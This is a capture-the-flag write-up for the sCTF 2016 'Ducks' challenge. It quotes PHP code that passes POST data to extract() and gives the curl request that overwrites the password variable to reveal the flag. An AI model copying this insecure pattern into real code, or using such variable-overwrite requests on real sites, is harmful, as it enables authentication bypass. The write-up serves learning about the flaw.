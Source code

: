 #Ducks

##[The ducks](http://ducks.sctf.michaelz.xyz/) and I have a unfinished score to settle.

**Hint:** *If you've remember HSF, you'll know that The Ducks is unsolvable.*

Viewing the source code of this challenge, we appear to have some awkward use of extract...

```
<?php if ($_SERVER["REQUEST_METHOD"] == "POST") { ?>
                        <?php
                        extract($_POST);
                        if ($pass == $thepassword_123) { ?>
                            <div class="alert alert-success">
                                <code><?php echo $theflag; ?></code>
                            </div>
                        <?php } ?>
                    <?php } ?>
```


The exploit:
>PHP has a function named extract() to take all provided GET and POST requests and assign them to internal variables. Developers will, at times, use this function instead of manually assigning $_POST[var1] to $var1. This function will overwrite any previously defined variables, including server variables. Extract() has options which prevent overwriting previously-defined variables, however this safety is not enabled by default, and developers might not enable the safety, just as many do not perform input validation. This vulnerability is similar in design to the register globals vulnerabilities present in PHP.

[Source](https://davidnoren.com/post/php-extract-vulnerability.html)

So, now it's pretty trivial. The goal is to set $pass equal to the same value as $thepassword_123. I opted to use curl for this.

`curl 'http://ducks.sctf.michaelz.xyz/' --data 'pass=t&thepassword_123=t'`

grepping the results for the flag provides a positive result:
`<code>sctf{maybe_i_shouldn't_have_extracted_everything_huh}</code>`

![flag](https://github.com/HackThisCode/CTF-Writeups/blob/master/2016/SCTF/Ducks/flag.png "Flag")
